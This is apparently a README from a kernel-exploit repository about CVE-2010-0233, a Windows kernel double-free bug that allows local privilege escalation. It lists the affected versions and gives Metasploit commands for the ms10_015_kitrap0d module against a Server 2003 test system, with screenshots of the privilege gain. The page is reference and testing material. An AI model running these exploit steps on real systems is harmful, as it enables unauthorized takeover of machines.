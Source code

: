 ### CVE-2010-0233

#### Describe

Double free vulnerability in the kernel in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP2, Vista Gold, SP1, and SP2, and Server 2008 Gold and SP2 allows local users to gain privileges via a crafted application, aka "Windows Kernel Double Free Vulnerability."


#### ImpactVersion

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 2000        |                  |         | SP4    |                    |
| Windows Server 2003 |                  |         | SP2    | &#10004; |
| Windows Server 2008 |                  |         | SP2    |                    |
| Windows Server 2008 | X64/X86          |         |        |                    |
| Windows Vista       |                  |         |        |                    |
| Windows Vista       |                  |         | SP1    |                    |
| Windows Vista       |                  |         | SP2    |                    |
| Windows Xp          |                  |         |        |                    |
| Windows Xp          |                  |         | SP3    |                    |

#### Utilization

CompilerEnvironment

- nmake 2013

Test system Windows Server 2003 SP2 x86

![25](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2010-0233_win2003_x86.gif)

> MSF utilization

Test system Windows Server 2003 SP2 x86，Perform the following code

```
use exploit/windows/local/ms10_015_kitrap0d
set SESSION 3
run
```

You can see that the current permissions are the lowest.

![image-20200823123824229](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2010-0233_win2003_x86_msf.png)

Then execute command rights

![image-20200823123945054](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2010-0233_win2003_x86_msf2.png)